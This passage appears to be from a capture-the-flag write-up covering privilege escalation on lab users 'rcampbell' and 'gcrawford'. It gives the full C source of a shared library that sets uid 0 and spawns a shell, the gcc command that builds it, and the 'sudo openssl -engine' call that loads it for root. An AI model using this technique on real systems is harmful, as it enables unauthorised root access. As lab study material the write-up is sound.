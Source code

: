 And we get root access.
This seems to be the only way to get root with `rcampbell`.

Now with `gcrawford` we can run `sudo openssl` but we couldn't get the reverse shell to work.
We didn't push further down that way but in the write up they wrote a small shared library that can be call from `openssl` using the `-engine` parameter.

The code of the shared library :
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	setgid(0);
	setuid(0);
	system("/bin/sh");
}
```

We compile it with `gcc -fPIC -shared -o shell.so shell.c -nostartfiles` on our machine. Send the file via netcat

Then we run `sudo openssl req -engine /tmp/shell.so`
And we get root !

